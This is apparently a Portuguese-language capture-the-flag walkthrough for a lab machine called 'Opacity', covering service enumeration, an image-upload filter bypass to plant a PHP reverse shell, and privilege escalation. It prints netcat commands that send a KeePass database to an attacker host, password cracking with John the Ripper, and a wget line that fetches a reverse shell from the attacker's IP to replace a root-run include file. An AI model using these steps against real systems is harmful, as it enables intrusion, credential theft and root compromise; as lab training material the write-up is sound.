







# _**Opacity**_


## _**Enumeração**_
Primeiro, vamos realizar um scan com <mark>Nmap</mark>
> ```bash
> nmap -p- --open -A [ip_address]
> ```


Investigando a página web, temos diretamente uma página de login  
Vamos tentar algumas credenciais padrão e também SQL injection  
Nenhum resultado  
Para o próximo passo, vamos tentar enumerar mais das outras portas descobertas  
As portas 139/tcp e 445/tcp estão abertas e sendo usadas pelo Samba, que é a implementação do protocolo SMB para sistemas Unix/Linux, permitindo compartilhamento com sistemas Windows  
Vamos utilizar <mark>Enum4linux</mark> para realizar a enumeração  
> ```bash
> enum4linux -a [ip_address]
> ```

Lendo o retorno, temos algumas informações úteis, mas nada que possa ser usado  
Vamos tentar enumerar a página web com <mark>Gobuster</mark>
> ```bash
> gobuster dir --url [ip_address] -w ../seclists/Discovery/Web-Content/directory-list-2.3-medium.txt
> ```


Parece que temos um diretório interessante  
Visitando, temos a opção de realizar upload de imagens, mas apenas via link externo  
Vamos ligar nosso servidor python e tentar realizar upload de um _reverse shell em PHP_  
Acessamos o link no nosso exploit no _browser_ para confirmar que está funcionando  
Como o link alvo aceita apenas imagens, podemos adicionar ```#.jpg``` no final do link para conseguirmos realizar upload  



## _**Escalando priviléigos**_
Tranferimos <mark>LinPeas</mark> para a máquina alvo e executamos para encontramos alguma forma de escalar privilégios  
Um pouco perdido nesta parte, fui buscar alternativas  
Encontramos um arquivo com a extensão ```.kdbx``` da qual encontramos em _/opt_  
Vamos realizar download para a nossa máquina via ```netcat```  
> ```bash
> nc -lnvp [port] > dataset.kdbx
> nc [vpn_ip_address] [port] < dataset.kdbx
> ```

Após extrair o arquivo, tentamos ler, mas está criptografado  
Pesquisando sobre, podemos tentar quebrar com <mark>John the Ripper</mark>  
> ```bash
> keepass2john dataset.kdbx > keepasshash.txt
> john keepasshash.txt --wordlist=/usr/share/wordlists/rockyou.txt
> ```


Vamos utiliar a ferramenta <mark>keepassxc</mark> para extrair o conteúdo do arquivo  



Vamos agora realizar login via SSH no usuário **sysadmin**  
Durante a investigação com o usuário **www-data**, encontramo um arquivo _.php_ do qual não conseguiamos ler  
Agora com este usuário, podemos verificar seu conteúdo  
Além do script ter dono _root_, podemos concluir que é um script de backup que inclui outro script em lib/backup.inc.php  
Vamos ver se conseguimos modificar este arquivo  
O arquivo _backup.inc.php_ é propriedade do root, então não temos permissão para alterar seu conteúdo  
No entanto, como usuário sysadmin, temos direitos de execução no diretório lib  
Isso nos permite remover _backup.inc.php_ e adicionar outro arquivo com o mesmo nome, mas com conteúdo diferente  
Adicionaremos um script que gera um terminal  
Como _script.php_ inclui _backup.inc.php_ e é executado com privilégios de root, ele gerará um terminal root  
Primeiro, vamos executar o comando abaixo no diretório _/lib_
> ```bash
> rm -rf backup.inc.php
> ```

Em seguida, o próximo comando na nossa máquina, e o segundo comando na máquina-alvo
> ```bash
> nc -lnvp [port]
> wget http://[vpn_ip_address]/php-reverse-shell.php -O ~/scripts/lib/backup.inc.php
> ```


Agora, basta ir atrás das flags!
